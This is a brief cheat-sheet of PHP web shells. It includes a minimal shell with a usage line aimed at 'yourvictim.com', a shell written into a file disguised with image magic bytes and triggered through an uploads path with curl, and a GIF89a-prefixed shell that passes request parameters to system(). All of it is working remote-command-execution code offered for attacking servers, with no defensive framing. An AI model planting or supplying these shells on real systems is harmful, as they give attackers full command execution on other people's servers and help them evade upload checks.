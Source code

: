 Simple PHP Webshell
-------------------
usage: http://www.yourvictim.com/shellname.php?cmd=whoami

```html
html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```

PHP web shell in a GIF with curl example
----------------------
```bash
echo 'FFD8FFEo' | xxd -r -p > test.gif
echo '<?php $c=$_GET['c']; echo `$c`; ?>' >> test.gif
curl -v http://ololo/uploads/test.gif?c=id
```

PHP web shell in GIF
--------------------
```php
GIF89a
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```
